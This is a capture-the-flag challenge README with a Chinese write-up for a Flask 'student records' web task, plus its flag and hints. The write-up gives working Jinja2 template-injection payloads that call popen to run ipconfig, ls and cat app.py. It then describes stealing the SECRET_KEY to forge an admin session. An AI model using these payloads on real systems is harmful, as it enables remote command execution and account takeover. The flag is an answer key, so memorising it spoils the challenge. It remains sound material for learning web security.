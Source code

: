 # Description

管理学籍！

# Difficulty

⭐⭐⭐

# Flag

```
mayctf{Oh_y0u_f1nd_th3_pr0b1l3m_0f_f1a4k}
```

# Platform (Optional)

ARCH

# Hint (Optional)

hint:What is the flask?

hint 2:How to chane session?

# WriteUp

输入任意学号姓名后进入index界面，登入后在输入框内发现可以进行ssti模板注入，输入payload：{{"".__class__.__bases__[0].__subclasses__()[139].__init__.__globals__['popen' ] ('ipconfig').read()}}确认有注入点，随后通过{{"".__class__.__bases__[0].__subclasses__()[139].__init__.__globals__['popen']('ls').read()}}和{{"".__class__.__bases__[0].__subclasses__()[139].__init__.__globals__['popen']('cat app.py').read()}}读取源码，发现只有将session['usr']='admin'才能进行学籍管理，同时在源代码发现session的’SECRET_KEY‘,上网搜索flask的session伪造脚本并更改session上传即可获得flag。